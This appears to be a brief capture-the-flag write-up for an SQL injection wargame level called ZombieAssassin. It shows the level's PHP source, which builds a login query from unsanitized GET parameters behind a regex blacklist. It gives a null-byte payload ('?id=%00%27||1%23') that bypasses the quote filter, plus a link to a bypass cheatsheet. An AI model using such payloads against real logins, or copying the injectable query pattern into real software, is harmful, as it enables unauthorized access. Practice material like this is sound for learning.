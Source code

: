 # **ZombieAssassin**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");   
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(@ereg("'",$_GET[id])) exit("HeHe");   
  if(@ereg("'",$_GET[pw])) exit("HeHe");   
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) solve("zombie_assassin");   
  highlight_file(__FILE__);   
?>
```

https://hydrasky.com/network-security/sql-injection-bypass-cheatsheet/

Null Bytes bypass WAF.

`?id=%00%27||1%23`

